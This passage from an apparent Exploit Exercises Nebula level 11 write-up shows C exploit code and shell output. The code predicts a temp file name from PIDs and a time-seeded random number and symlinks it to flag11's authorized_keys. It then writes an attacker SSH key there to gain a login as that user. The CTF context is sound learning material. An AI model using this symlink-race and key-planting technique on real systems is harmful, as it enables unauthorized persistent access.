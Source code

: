 ```c
    srandom(time);

    tmp = getenv("TEMP");

    asprintf(path, "%s/%d.%c%c%c%c%c%c", tmp, pid,
        'A' + (random() % 26), '0' + (random() % 10),
        'a' + (random() % 26), 'A' + (random() % 26),
        '0' + (random() % 10), 'a' + (random() % 26));
}

int main(int argc, char **argv)
{
    char line[256];
    char buf[2048] = "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDiXL8q1ehvJanDxk4CpzrFHJmCM6MMPWkqPYlxAd1NZ7m9djA3Yn/zlubEbYDoPkYlq3f8eqwgzN6PQs3OhynDwzvZkBwBd30bMnPdCp4J3tPvM/UGOYV5R9pmwnMaUzLSdbT718AYGHTaWiX9j6nOYjMCg1S/zUIXykD+xlsUHcDrqs1KUHGZADoSPSkV5uEtFNqJ6I3BXaUtPm5JzwI8BF0BO3+tIcnTT8aWARLGZ/wZqx50Ia9gX0b3AM1brAStJfKy3dInRy9dFgmopZOazDI/1y0rmhSw+672zex6UVY+7tLEsOKp1bK+GHCWgpOxJHud8RTIUGpl4lEgjgNr level11@nebula";

    int pid;
    int fd;
    char *path;
    FILE* stream;

    pid = getpid() + 1;
    getrand(&path, pid, time(NULL));
    symlink("/home/flag11/.ssh/authorized_keys", path);
    fprintf(stdout, "Content-Length: 2048\n%s", buf);
}
```

Our exploit works by predicting the file that will be used by the `flag11`
binary, abusing the fact that Linux assigns PID numbers sequentially, and
symlinks that file to the `/home/flag11/.ssh/authorized_keys` file. We are able
to do this because permissions are not actually checked during the creation
of symbolic links.

Full credits to [@graugans][nebula-11-gist] for the idea.

```shell
level11@nebula:~$ gcc -o /home/level11/exploit /home/level11/exploit.c
level11@nebula:~$ /home/level11/exploit | /home/flag11/flag11
blue = 2048, length = 2048, pink = 395
blue = 1653, length = 2048, pink = 0
flag11: fread fail(blue = 1653, length = 2048): Operation not permitted
level11@nebula:~$ ls -lah /home/flag11/.ssh
total 4.0K
drwxr-xr-x 1 flag11 flag11   60 2018-01-01 04:28 .
drwxr-x--- 1 flag11 level11  60 2012-08-20 18:58 ..
-rw------- 1 flag11 level11 395 2018-01-01 04:28 authorized_keys
```

Once we have written the `authorized_keys` file, we are able to SSH in
as the flag11 user.


[exploit-exercises]: https://exploit-exercises.com
[gnu-coreutils-env]: https://www.gnu.org/software/coreutils/manual/html_node/env-invocation.html
[pcre-modifier]: http://php.net/manual/en/reference.pcre.pattern.modifiers.php
[nebula-11-gist]: https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9#file-nebula-level11-md